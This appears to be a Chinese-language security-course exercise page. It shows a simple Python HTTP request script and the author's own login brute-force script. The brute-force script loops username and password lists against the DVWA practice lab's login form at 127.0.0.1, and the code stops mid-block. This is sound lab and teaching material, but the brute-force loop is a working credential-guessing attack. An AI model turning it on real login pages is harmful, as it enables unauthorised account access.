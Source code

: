 官方：

```python
import http.client

host = input("Insert the host/IP: ")
port = input("Insert the port(default:80): ")
url = input("Insert the url: ")

if not port:
    port = 80

try:
    connection = http.client.HTTPConnection(host, port)
    connection.request('GET', url)
    response = connection.getresponse()
    print("Server response:", response.status)
    connection.close()
except ConnectionRefusedError:
    print("Connection failed")
```



## 登录 Brute Force - 练习

我们现在希望您构建的是一个小程序，它将针对 Web 应用程序登录表单测试常用用户名和密码列表（取自文件）。

你可以只使用两个 Python 模块来做到这一点：

* [http.client](https://docs.python.org/zh-cn/3/library/http.client.html)

* [urllib.parse](https://docs.python.org/zh-cn/3/library/urllib.parse.html)

  

**我自己写的源码：**

注意，此脚本仅针对DVWA的Brute Force模块，Security Level: low。并不具备通用性。

从文件username.txt中读取用户名，password.txt中读取密码。然后使用request模块构造一个GET请求，参数中携带用户名密码，并且在`Cookie:`请求头中携带对应的cookie。

```python
import re
import requests


def readfile(filename):
    with open(filename) as f:
        lines = f.readlines()
        lines = [line.rstrip() for line in lines]
        return lines


usernames = readfile('username.txt')
passwords = readfile('password.txt')
for username in usernames:
    for password in passwords:
        payload = {'username': username, 'password': password, 'Login':'Login'}
        cookies = dict(security='low', PHPSESSID='nic057r3k3n0dkslhr3f92vs4d')
        r = requests.get('http://127.0.0.1/DVWA/vulnerabilities/brute/', params=payload, cookies=cookies)

        try:
            r.raise_for_status()
            if re.search(r'<p>Welcome to the password protected area', r.text):
                print("Find username: '{}' and password: '{}' successfully login in.".format(username, password))
```